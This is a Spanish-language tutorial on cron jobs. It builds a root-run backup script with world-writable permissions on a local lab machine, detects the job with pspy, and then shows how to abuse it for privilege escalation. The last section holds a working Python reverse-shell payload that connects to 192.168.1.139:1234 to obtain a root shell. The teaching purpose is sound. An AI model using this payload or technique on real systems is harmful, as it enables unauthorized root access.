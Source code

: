 # Explotación tareas Cron

Las tareas Cron se utilizan para programar tareas que se van a ejecutar a **intervalos regulares de tiempo**, es decir, en fechas y horas específicas. Habitualmente, se utilizan para programar **copias de seguridad**, borrados de archivos, envío de logs, etc.

Las tareas Cron tienen una sintaxis específica que nos va a permitir indicar qué tipo de tarea queremos ejecutar, cada cuanto tiempo ha de ejecutarse, qué usuario va a ejecutar la tarea, etc.

## Creación tarea Cron

Vamos a desarrollar un pequeño script en **Python3** que nos permita hacer una copia de un fichero que tengamos en una carpeta y lo guarde en otra llamada “Backup”.

```python
#!/usr/bin/python3
import sys 
import time 
import subprocess 
from pwn import * 
if __name__ == "__main__": 
    log.progress("Comenzando con la copia") 
    result = subprocess.run(["cp", "/home/diego/articulosBlog/explotacionTareasCron/privado/documentos.txt", "/home/diego/articulosBlog/explotacionTareasCron/backup"], capture_output=True, text=True) 
    if (result.returncode == 0): 
        log.info("Copia completada") 
        sleep(1) 
    else: 
        log.info("Ha ocurrido un error") 
```

Para poder explotar las tareas Cron es necesario que los permisos (del script que se va a ejecutar) estén **mal configurados**. Por tanto, asignaremos permisos de escritura a “otros” (_chmod o+w_).

Una vez tengamos el script y los permisos configurados, estamos listos para configurar la tarea Cron. Para ello, tenemos que **editar el fichero** /etc/crontab.

Siguiendo la sintaxis de las tareas Cron previamente explicada, podemos programar una tarea en la que, el usuario **root** ejecute el script, anteriormente desarrollado, cada minuto. Para ello, añadimos la siguiente línea:

```bash
* * * * * root python3 /home/diego/articulosBlog/explotacionTareasCron/script.py
```

Esta acción tan simple, se va a ejecutar cada minuto por parte del usuario root, pero para ello es necesario arrancar el **demonio** de Cron.

```bash
sudo service cron start
```

Podemos comprobar el estado del demonio mediante el comando:

```bash
sudo service cron status
```

## Detección de tareas Cron

La búsqueda de tareas Cron es un paso muy habitual a la hora de **enumerar** posibles vías para escalar privilegios. Podríamos desarrollar un  pequeño script que nos las detecte (de una manera muy básica) o usar alguno desarrollado con importantes mejoras. Yo os voy a enseñar cómo usar [pspy](https://github.com/DominicBreuker/pspy).

**Pspy** es una herramienta muy interesante que nos va a permitir ver las tareas Cron que se ejecutan en el sistema, al igual, que el usuario que las ejecuta. Está programado en **Go** y para poder usarlo podemos compilarlo nosotros o descargar la [versión compilada](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64)

El uso es muy sencillo, le damos **permisos** de ejecución y lo lanzamos (_./pspy64_). Empezaremos a ver tareas que se ejecutan a intervalos regulares de tiempo, entre ellas, tiene que estar la que acabamos de crear:

```bash
2021/07/23 20:51:01 CMD: UID=0 PID=158638 | python3 /home/diego/articulosBlog/explotacionTareasCron/script.py
```

Como vemos el **UID** es 0 lo que indica que lo está ejecutando root y vemos la ruta del script.

## Explotación tareas Cron

Ahora, un posible atacante con privilegios de usuario comprobaría los permisos de ese script, que se ejecutará como **root**, y como **“otros”** tienen permiso de escritura, podría modificarlo.

Por ejemplo, podría aprovechar esta vulnerabilidad para obtener una **reverse shell**, obteniendo acceso con privilegios elevados.

Modificamos el contenido del script por el siguiente:

```python
#!/bin/python3
import sys
import time
import subprocess
from pwn import *
 
if __name__ == "__main__":
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.139",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
```

Nos ponemos en escucha por el puerto 1234. Cuando se ejecute el script, obtendremos acceso como el usuario root.
